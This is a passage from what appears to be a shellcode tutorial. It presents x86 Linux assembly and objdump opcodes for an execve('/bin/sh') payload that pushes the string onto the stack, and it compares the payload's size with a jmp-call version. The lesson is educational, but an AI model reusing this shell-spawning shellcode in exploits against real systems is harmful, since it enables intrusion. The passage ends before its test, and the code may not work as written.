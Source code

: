 ``` {.asm}
     xor edx,edx        ; edx = 0 (it's also param #3 - NULL)
     push edx       ; args[1] - NULL
     push esi       ; args[0] - "/bin/sh"


     mov ecx,esp        ; Param #2 - address of args array
     mov ebx,esi        ; Param #1 - "/bin/sh" is *esp
     mov al,0xb         ; System call number for execve
     int 0x80       ; Interrupt 80 hex - invoke system call

     xor ebx,ebx        ; Exit code, 0 = normal
     xor eax,eax        ; eax = 0
     inc eax        ; System call number for exit (1)
     int 0x80       ; Interrupt 80 hex - invoke system call
```

Looking at this, we get the same effect of the jmp-call back to get a
position free reference to the string "/bin/sh". Let;s take a look at
the objdump to see how this changed things:

``` {.example}
Disassembly of section .text:

08048060 <_start>:
 8048060:   31 c0                   xor    eax,eax
 8048062:   50                      push   eax
 8048063:   6a 68                   push   0x68
 8048065:   6a 73                   push   0x73
 8048067:   6a 2f                   push   0x2f
 8048069:   6a 6e                   push   0x6e
 804806b:   6a 69                   push   0x69
 804806d:   6a 62                   push   0x62
 804806f:   6a 2f                   push   0x2f
 8048071:   89 e6                   mov    esi,esp
 8048073:   31 d2                   xor    edx,edx
 8048075:   52                      push   edx
 8048076:   56                      push   esi
 8048077:   89 e1                   mov    ecx,esp
 8048079:   89 f3                   mov    ebx,esi
 804807b:   b0 0b                   mov    al,0xb
 804807d:   cd 80                   int    0x80
 804807f:   31 db                   xor    ebx,ebx
 8048081:   31 c0                   xor    eax,eax
 8048083:   40                      inc    eax
 8048084:   cd 80                   int    0x80
```

Looking closely, there are two bytes for every push, and we push 7
items, for 14 bytes. Referring back to the jmp-callback version of the
code. There were 12 bytes for the call back and 2 bytes for the jmp,
that's 14 byts. We gained nothing!

Worse, let's see if this shell code actually works:
